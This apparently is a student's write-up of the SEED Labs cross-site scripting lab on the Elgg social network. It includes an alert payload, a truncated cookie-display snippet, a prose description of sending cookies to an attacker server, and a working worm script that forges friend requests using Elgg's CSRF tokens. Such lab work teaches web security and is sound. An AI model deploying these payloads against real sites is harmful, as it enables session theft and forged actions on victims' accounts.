








# WEEK 10 and 11

## SEEDs LAB

Link: https://github.com/seed-labs/seed-labs/tree/master/category-web/Web_SQL_Injection


### Task 1 - Posting a Malicious Message to Display an Alert Window

- For this task, we need to embed a JavaScript code in an _Elgg_ profilem duch that when the user views the respective profile, an alart windows will appear.
- In order to do this, we used the following JavaScript code:

```js
<script>
    alert("XSS");
</script>
```



- After saving the new information, each time a user visited that respective profile (in our case, is the Alice's profile), a pop-up would appear.




### Task2 - Posting a Malicious Message to Display Cookies

- The objective of this task is similar to the first task, but instead of the message, we need to display the user cookie.

```js
<script> 
    document.write("
```






### Task3 - Stealing cookies from the Victim's Machine

- In this task, we want to be able to send the user's cookies to a server that belongs to us, the attacker. 
- In order to to this, we use an image with the an hyperlink reference with the user cookie. We will use an image because each time the page is loaded the image is loaded with him, and consequently, the href is called.





### Task4 - Becoming the Victim's Friend

- Lastly, in this task, we will write an XSS worm that adds Samy as a friend to any other user (in our case, Alice) that visits Samy's profile.

```js
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```



- When we visit Samy's profile, the script will send a forged friend request.


- When we visit Alice's profile, we can see that Samy is n ow a friend of Alice.


### Question1 - Explain the purpose of Lines 1 and 2, why ate they needed?
The referenced lines serve to send the _elgg_ token in our forged request so that the server evaluates the request as a valid request from the user.

### Question2 - If the _Elgg_ application only provide the ditor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the innerHTML content of that field. So, injecting any script into the _About me_ field is not possiblem as we can't submit the `<script>` tag into profile.


